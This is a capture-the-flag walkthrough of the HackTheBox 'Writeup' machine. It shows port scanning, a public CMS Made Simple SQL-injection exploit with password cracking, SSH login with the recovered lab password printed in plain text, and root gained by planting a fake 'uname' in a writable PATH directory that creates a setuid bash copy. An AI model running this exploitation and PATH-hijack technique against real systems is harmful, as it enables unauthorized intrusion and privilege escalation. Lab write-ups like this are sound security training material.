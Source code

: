 # Writeup HackTheBox

![image](https://user-images.githubusercontent.com/5285547/124397537-3e527400-dd08-11eb-9e21-914eb4ef2ea0.png)

## Nmap 

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
```


## Robots.txt

![image](https://user-images.githubusercontent.com/5285547/124394688-72259d80-dcf8-11eb-879b-2e092ef3c570.png)


## /writeup/

![image](https://user-images.githubusercontent.com/5285547/124394807-e6f8d780-dcf8-11eb-9399-2ca31be26055.png)

Checking the source code of the page we can see the CMS being used here. 

Redacted source code http://10.10.10.138/writeup/
```
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
```

I quickly found this exploit online: https://www.exploit-db.com/exploits/46635

Downloading, editing and running the exploit gave me some creds. 

Python3 version (Edited by me): https://github.com/AssassinUKG/Writeups/blob/main/hackthebox/dare/writeup/cmsExploit/cms.py

```
cms.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/SecLists/Passwords/rockyou.txt
```
![image](https://user-images.githubusercontent.com/5285547/124398557-33024700-dd0e-11eb-8b70-9aac12e92f52.png)


## User

Using the found credentials we can now ssh onto the box

```
ssh jkr@10.10.10.138
raykayjay9
```

And grab the user.txt flag

## Root

I transfer linpeas.sh to the box and start it off, after a little while I can see a few paths that we have write access too. 

![image](https://user-images.githubusercontent.com/5285547/124398967-6e057a00-dd10-11eb-97fd-5a9c72e761cf.png)

Not having found mucn, let's also check the running process's with pspy64 to see whats running as root
Nothing was running that I could exploit so I went to make a new ssh connection to send some more files over to help. 
That's when I noticed the login messages in pspys output.  
Now I see a file without a full path provided. 

![image](https://user-images.githubusercontent.com/5285547/124399353-b6259c00-dd12-11eb-9f55-99b1cc6bf9b3.png)

These lines in particular are of intrest

```
2021/07/04 16:54:44 CMD: UID=0    PID=15322  | run-parts --lsbsysinit /etc/update-motd.d 
2021/07/04 16:54:44 CMD: UID=0    PID=15323  | uname -rnsom
```

Let's check the path for the paths we can write in. 

```
echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

We see /usr/local/bin is first, as we can write to it, lets make our file here.

Check to see where uname is too. 

```
find / -name uname 2>/dev/null

/bin/uname
/usr/lib/klibc/bin/uname
```

I'll make a new file called uname

```
#!/bin/bash
cp /bin/bash /tmp/b
chmod u+s /tmp/b
echo "Exploited2"
```

Then make it executable and try to login again. 

```
nano /usr/local/bin/uname
chmod +x uname
```

![image](https://user-images.githubusercontent.com/5285547/124399650-b45cd800-dd14-11eb-84b4-0708a9e1556e.png)

I see the message so we should be able to get root with 

```
/tmp/b -p
```

Success!!

![image](https://user-images.githubusercontent.com/5285547/124399683-f259fc00-dd14-11eb-9780-a0ddb82cb446.png)


